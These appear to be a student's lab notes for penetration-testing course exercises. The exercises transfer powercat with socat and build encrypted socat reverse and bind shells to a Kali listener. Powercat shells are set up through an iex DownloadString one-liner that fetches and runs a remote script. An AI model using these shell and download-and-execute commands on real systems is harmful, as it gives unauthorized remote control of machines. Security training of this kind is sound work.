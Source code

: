 # 4.2.5 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **socat ** to transfer **powercat.ps1 ** from your Kali machine to your Windows system. Keep the file on your system for use in the next section.
host
`sudo socat TCP4-LISTEN:443,fork file:powercat.ps1`
recipient
`socat TCP4:192.168.119.249:443 file:received_powercat.ps1,create`
![[Pasted image 20220218121253.png]]

2.  Use **socat ** to create an encrypted reverse shell from your Windows system to your Kali machine.
generate the key
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
combine .key and .crt into .pem
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
create listener using .pem and execute shell
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
connect 
`socat - OPENSSL:192.168.119.249:443,verify=0`
![[Pasted image 20220218122213.png]]
# !!SKIPPED QUESTIONS RETURN HERE!!
3.  Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
use previously generated .pem
start socat listener
`socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0 STDOUT`
target windows machine do a callback using socat
`socat OPENSSL:192.168.119.218:443,verify=0 EXEC:/bin/bash`

4.  Make an unencrypted **socat ** bind shell on your Windows system. Connect to the shell using Netcat. Does it work?


# 4.3.9 exercises
#### Exercises

_(To be performed on your own Kali and Windows 10 lab client machines - Reporting is required for these exercises)_

1.  Use **PowerShell** and **powercat** to create a reverse shell from your Windows system to your Kali machine.
run dot-sourcing script
`. .\powercat.ps1`
or use iex cmdlet
`iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`

2.  Use **PowerShell** and **powercat** to create a bind shell on your Windows system and connect to it from your Kali machine. Can you also use **powercat** to connect to it locally?


3.  Use **powercat** to generate an encoded payload and then have it executed through **powershell**. Have a reverse shell sent to your Kali machine, also create an encoded bind shell on your Windows system and use your Kali machine to connect to it.